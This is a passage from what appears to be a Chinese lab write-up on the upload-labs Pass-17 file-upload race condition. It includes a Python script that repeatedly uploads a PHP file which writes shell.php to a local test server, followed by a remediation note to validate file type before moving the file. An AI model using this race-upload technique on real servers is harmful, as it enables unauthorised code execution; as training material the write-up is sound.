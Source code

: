 ```python
Content-Type: application/octet-stream



<?php

$myfile = fopen("shell.php", "w") or die("Unable to open file!");

$txt = "<?php  phpinfo();   ?>\n";

fwrite($myfile, $txt);

fclose($myfile);

?>

-----------------------------6696274297634

Content-Disposition: form-data; name="submit"



上传

-----------------------------6696274297634--

"""

​    code, head, html, redirect, log = hh.http('http://127.0.0.1/upload-labs/Pass-17/index.php', raw=raw)

​    print(str(code) + "\r")


pool = ThreadPool(10)

pool.map(upload, range(10000))

pool.close()

pool.join()
```

只是把burp换成了python，其他操作方法是一样的



###### 修复问题

应该先判断文件类型，再移动



